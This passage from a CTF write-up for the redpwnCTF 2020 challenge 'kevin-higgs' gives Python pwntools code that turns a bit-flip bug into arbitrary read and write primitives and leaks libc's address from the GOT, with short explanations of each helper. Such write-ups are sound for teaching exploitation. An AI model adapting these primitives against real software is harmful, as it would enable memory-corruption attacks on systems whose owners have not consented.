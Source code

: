 This is about as close to _ret2main_ as we're going to get.


### Leak libc's location from the GOT

```python
#!/usr/bin/python3

from pwn import *

def flipbit(address,bit):
    p.recvuntil('uint32): ')
    p.sendline(hex(address + bit // 8)[2:])
    p.recvuntil('7): ')
    p.sendline(str(bit % 8))
    _ = p.recvuntil(['Give me','Well, at least you tried.'])
    if b'[debug]' in _:
        i = _.find(b'new byte: ') + 10
        return int(_[i:i+4],16)
    return None

def readbyte(address):
    flipbit(address,0)
    rbyte = flipbit(address,0)
    assert(rbyte != None)
    return rbyte

def readword(address):
    word = 0
    for i in range(4):
        word |= (readbyte(address + i) << 8 * i)
    return word

def write(what, where):
    was = readword(where)
    for i in range(32):
        if (was ^ what) & (1 << i):
            flipbit(where,i)

binary = ELF('./kevin-higgs')
debug = 0x804c090
os.environ['NUMBER_OF_FLIPS'] = '2'

#p = process(binary.path)
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = remote('2020.redpwnc.tf', 31956)
libc = ELF('libc-database/db/libc6-i386_2.28-10_amd64.so')
```

`flipbit` does exactly that, just provide a 32-bit address, and a bit position (0-31); and if debug is enabled the byte after the flip will be returned.

`readbyte` just calls `flipbit` twice to set/reset (or is it reset/set :-).  As long as the bit being flipped does not break anything, this should be safe.  _This is not atomic._
